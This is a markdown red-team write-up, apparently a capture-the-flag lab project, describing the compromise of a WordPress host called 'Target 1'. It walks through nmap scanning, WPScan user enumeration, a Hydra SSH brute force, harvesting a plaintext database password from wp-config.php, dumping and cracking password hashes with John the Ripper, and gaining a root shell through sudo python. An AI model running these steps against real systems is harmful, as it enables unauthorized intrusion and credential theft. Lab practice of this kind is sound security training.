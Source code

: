 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

The following services and OS data are revealed by the Nmap scan results for each machine:

$ nmap -A 192.168.1.0/24
- ![alt text](https://github.com/fpanes/Final-Project/blob/main/Images/Offensive/nmapscan.png)

This scan finds the following services as potential ports of entry:
- Target 1
  - Port 22/TCP Open SSH
  - Port 80/TCP Open HTTP
  - Port 111/TCP Open rcpbind
  - Port 139/TCP Open netbios-ssn
  - Port 445/TCP Open netbios-ssn

On each target, the following vulnerabilities were discovered:
- Target 1
  - Improper configured SSH
  - WordPress Enumation
  - Weak Password Implementation
  - There is no implementation of file security permission.
  - Use of weak password salted hashes
  - Python root escalation privileges

### Exploitation

The Red Team was successful in breaching 'Target 1' and obtaining the following sensitive information:
- Target 1
  - `flag1.txt`: b9bbcb33ellb80be759c4e844862482d
    - **Exploits Used**
      - WPScan is being used to count the number of users on the Target 1 WordPress site.
       - wpscan --url http://192.168.1.110 --enumerate u
       - ![alt text](https://github.com/fpanes/Final-Project/blob/main/Images/Offensive/wpscan.png)
 
    - Targeting User Michael
      - Executed Hydra Brute Force Attack
        - The following command was performed:
        - hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh
        - Password: Michael

    - Capturing Flag 1: As Michael, I went through directories and files following an SSH Brute Force Attack.
      - Flag1 was discovered in the var/www/html folder at the root in service.html in an HTML remark below the footer.
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael

        - cd ../
        - cd /var/www/html
        - ls -l
        - nano service.html

  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a3e581c
    - **Exploit Used**
      - Same exploit covered in flag1 to gain access
      - Commands:
        - ssh michael@192.168.1.110
        - pw: michael
        - cd ../
        - cd /var/www
        - find / i-name flag*
        - cat flag2.txt

  - `flag3` : afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Previous exploit covered in flag1 and flag2
      - Captured flag3 Accessing MySQL database
        - MySQL was used to examine the database after discovering wp-config.php and getting access to the database credentials as Michael.
        - the wp-config.php displayed DB_Password in plaintext

        - flag3 was found in wp_posts table in the wordpress database.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - show databases;
          - use wordpress;
          - show tables;
          - select * from wp_posts;

  - `flag4` : 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - Use of weak password salted hashes and Python root escalation privileges
      - Captured flag4 by collecting user credentials from the database, running john the ripper to crack the password hash, then gaining root access using Python Escalation Privileges.
        - After gaining access to the database credentials as Michael through the sp-config.phpfile, the next step was to decrypt password hashes obtained from MySQL.
        - These user credentials are saved in the WordPress database's wp_users table.
        - The usernames and password hashes were recorded in a file named wp hashes.txt on the Kali computer.
        - Commands:
          - Connected to mysql: -u root -p R@v3nSecurity
          - SELECT ID, user_login, user_pass FROM wp_users;

        - When I exported the hashes, I stored them separately as stevenhash.txt and michaelhash.txt and cracked the hashes using John the Ripper.
          - Command:
            - john stevenhash.txt
            - john michaelhash.txt; the execution of the john the ripper continued; however, we already knew the password from the prior action.

          - After cracking Steven's password hash, the next step was to SSH as Steven. Then, as Steven, use Python to check for privilege and escalate to root.
          - Command:
            - ssh steven@192.168.1.110
            - pw:pink84
            - sudo -l
            - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
            - cd /root
            - ls
            - cat flag4.txt
